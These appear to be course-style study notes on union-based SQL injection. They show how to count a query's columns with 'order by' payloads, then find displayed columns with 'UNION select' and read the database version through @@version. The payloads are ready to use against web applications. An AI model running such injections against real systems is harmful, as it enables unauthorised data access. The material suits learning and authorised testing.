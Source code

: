 Try one by one this query until it is not working.
`' order by 1-- -`

We are adding an extra dash (-) at the end, to show you that there is a space after (--).

`' order by 2-- -`

`' order by 3-- -`

`' order by 4-- -` Error so we know that we have only 3 columns. 

The other method is using the Union with different table number until we have an error
`cn' UNION select 1,2,3-- -`
`cn' UNION select 1,2,3,4-- -`

The number are constant value that you inject in it. 

**Now that we know the number of column, we can do our injection.** 

It is very common that not every column will be displayed back to the user. Therefore the injection has to be place in the right column. As an example:

`cn' UNION select 1,2,3,4-- -`

![image.png](8%20SQL%20Injection%20Fundamentals%2019d1099e6b5c8083a030c68f5fb019fb/image.png)

Only column 2,3,4 are printed. Therefore injection should be place into one of them.

To test this:
`cn' UNION select 1,@@version,3,4-- -`

![image.png](8%20SQL%20Injection%20Fundamentals%2019d1099e6b5c8083a030c68f5fb019fb/image%201.png)
